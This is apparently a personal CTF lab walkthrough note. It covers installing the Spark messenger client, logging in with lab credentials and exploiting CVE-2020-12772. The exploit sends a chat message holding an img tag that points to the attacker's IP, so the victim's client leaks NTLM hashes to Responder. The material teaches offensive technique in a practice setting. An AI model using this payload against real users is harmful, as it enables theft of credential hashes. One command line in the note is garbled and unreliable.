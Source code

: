 You can notice that in the same flag;'s directory there some files starting with "spark".
There's a `.deb` file and you can see what its content is.

#smbclient 
- Download the spark* files.
```
mget spark*
```

#Attacking_Machine 
- Look at spark_2_8_3.deb content.
```
dpkg-deb -I spark_2_8_3.deb
```

![[Spark Messenger-20250424121329878.webp]]

### Installing spark

As this program pre-Depends: *openjdk-8-jre | oracle-java8-jre*. You can install this packages following the steps oon [[Install OpenJDK 8 on Kali Linux]].

### If you want to use the `.deb`:

1. **Extract the .deb manually** without installing:
```
dpkg-deb -x spark_2_8_3.deb extracted-spark
```


This unpacks the `.deb` into the `extracted-spark` folder.

2. Search for any `spark` launcher script. In the top extracted folder (where you unpacked `spark_2_8_3.deb` or `.tar.gz`), do:

```
find . -type f -name "spark"cd extracted-spark find . -name "*.jar"
```

Look for small executable files — **not .jar files**.

3. Assuming you're in the folder where you extracted, then:
```
cd usr/share/spark

java -cp "lib/*" org.jivesoftware.launcher.Startup
```

![[Spark Messenger-20250428204457416.webp]]



## Logging in spark


- Intreoduce the following data on the form:
	Username: `lilyle`
	Password: `ChangeMe#1234`
	Domain: `fire.windcorp.thm`


- Go to the advanced settings and disabled these options.
	![[Spark Messenger-20250429111142019.webp]]
	You are logged.
	
	![[Spark Messenger-20250429111333907.webp]]

## Vulnerability

If you look up on the internet you'll find an interesting `CVE-2020-12772` vulnerability.

Visit https://nvd.nist.gov/vuln/detail/CVE-2020-12772.


![[Screenshot from 2025-04-29 11-19-52.png]]

## Explitation

If you go to https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md you can see how the authors found the way of exploiting the vulnerability.

![[Spark Messenger-20250429113402847.webp]]

When you opened a chat with another user, you could send an `<img`  tag to that user with an external URL as the source of that image, like this:

`<img src=http://<your attaching machine IP>/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external server receives the request for the image, together with the NTLM hashes from the user that visits the link, i.e. the user you are chatting with!


### Responder

#Attacking_Machine 
Run the following to be able to catch the hash when it comes.

```
sudo responder -I tun0

```

![[Spark Messenger-20250429113141404.webp]]


## Start chat

#sSpark
- Go to Options->Start a Chat.

	![[Spark Messenger-20250429115752719.webp]]

-  After enter an address you'll have a window to chat.
-  Send the message: `<img src=http://10.9.1.138/test.img>`.

	![[Spark Messenger-20250429120805277.webp]]

After a while you'll get the hash on the responder terminal.

![[Spark Messenger-20250429121035765.webp]]

**Next step:** [[Cracking the hash]]

